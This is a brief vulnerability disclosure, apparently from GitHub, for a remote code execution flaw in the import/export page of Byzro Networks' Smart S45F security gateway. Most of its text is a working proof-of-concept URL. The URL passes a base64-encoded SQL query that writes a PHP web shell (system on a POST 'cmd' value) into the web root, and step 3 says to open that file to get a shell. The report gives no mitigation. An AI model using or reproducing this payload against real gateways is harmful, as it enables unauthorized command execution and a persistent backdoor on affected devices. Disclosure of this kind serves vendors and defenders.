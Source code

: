 There is an rce injection vulnerability in the intelligent management platform of Byzro Networks Smart S45F multi-service security gateway.

version:S45F

/importexport.php

1.As shown in the figure login interface

![图片1](https://github.com/Chef003/cve/assets/131168641/d9d31cc9-fa33-47bd-8687-6193872408dc)


2.Construct POC and execute download

https://ip:port/importexport.php?sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc2VjLnBocCc=&type=exportexcelbysql

![图片2](https://github.com/Chef003/cve/assets/131168641/401e6f4f-cf4b-4361-870d-8ca1ebb46351)

3.Visit /app/sec.php to get the webshell.

![图片3](https://github.com/Chef003/cve/assets/131168641/8fa9d481-2916-4d10-aaa8-1883745d7687)
